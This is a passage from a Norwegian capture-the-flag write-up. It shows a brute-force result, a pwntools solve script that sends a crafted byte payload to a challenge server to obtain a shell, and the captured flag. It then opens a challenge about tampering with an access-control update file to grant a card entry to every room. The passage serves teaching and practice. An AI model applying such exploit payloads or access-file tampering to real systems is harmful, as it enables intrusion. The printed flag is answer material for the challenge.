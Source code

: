 Scriptet kjører ganske kjapt, og gir oss bytsene vi trenger for å få shell.
```console
$ ./brute
1, 65, 183, 227
```

Vi kan dermed konstruere payloaden vår for å få shell, som består av de 4 bytsene vi fant, og resten nullbytes.
```python
from pwn import *

io = remote("3sat.utl", 2001)
payload = b"\xe3\xb7\x41\x01".ljust(4096, b"\x00")
io.sendlineafter(b"bytes)", payload)
io.interactive()
```
{: file="solve.py" }

På grunn av `alarm(2)` i boot-koden har vi bare shell i 2 sekunder, men dette er mer enn nok tid til å hente ut flagget før vi blir kastet ut av shellet.
```console
$ python3 solve.py
<snip>
$ ls; cat FLAG
FLAG
boot
FLAG{b7bf1c27eab7615bddd15e2ba05f3f2c}
```


# Department of Nuclear Power
```
For å finne ut av hvordan entangulatoren virker må vi først få tak i en. I et lagerbygg som tilhører Department of Nuclear Power tror vi det kan finnes en slik og vi har en agent som er villig til å "låne" den slik at vi kan ta en nærmere titt.

Adgang til lagerbygget styres av et **ACCESS16**-system. Hver dør kontrolleres av dette systemet og man slipper ikke inn en dør uten gyldig kort, PIN og tilgang. Agenten har fått tak i et slik adgangskort, men kortet er ikke aktivert.

**ACCESS16**-systemet kan oppdateres med en oppdateringsfil. Ved hjelp av en person på innsiden har vi neste oppdateringsfil. Vi har mulighet til å endre på denne fila før den blir brukt. Oppdateringsfila inneholder kommandoer som endrer på brukerdatabasen.
```

## 2.7.1_aksess
Vi har fått tilgang til et `MOV16` program som kontrollerer hvilke rom aksesskort har tilgang til, samt har vi fått tak i en oppdateringsfil som kan gis til systemet. Målet med oppgaven er å legge til ekstra kommandoer til denne oppdateringsfilen slik at et kort med ID `519` og pinkoden `9377` får tilgang til alle rommene.

`MOV16` programmet, `access16-v1.6.mos`, er *ganske* langt (898 linjer), men man trenger bare å forstå seg på oppdateringsfilen man har, og finne følgende kommando-oversikt fra MOV16 koden:
```
command_table:
	handle_command_end			; -1
	handle_command_add			; -2
	handle_command_remove			; -3
	handle_command_set_pin			; -4
```
